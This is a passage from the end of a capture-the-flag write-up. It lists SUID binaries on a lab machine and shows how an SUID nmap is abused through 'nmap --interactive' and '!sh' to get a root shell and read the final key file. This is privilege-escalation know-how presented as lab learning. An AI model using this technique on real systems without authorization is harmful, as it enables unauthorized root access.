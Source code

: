 And yes, there is one oddball in the output:

```bash
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/chfn
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/dotlockfile
/usr/bin/sudo
/usr/bin/ssh-agent
/usr/bin/wall
/usr/local/bin/nmap
```

It's `nmap`! Meaning, that when we run `nmap` on this target machine, we will take on the identity of the owner - who is `root`!

Using [gtfobins](https://gtfobins.github.io/gtfobins/nmap/) we can see that we can start `nmap --interactive` and then drop to a shell with `!sh` command from the `nmap> ` prompt.

Well, when we drop to a shell, we are now running as `root`!

We can now navigate and get the contents of `/root/key-3-of-3.txt`. We've gotten all of the keys and rooted the box.

## Summary

Completed: [2023-08-13 00:22:01]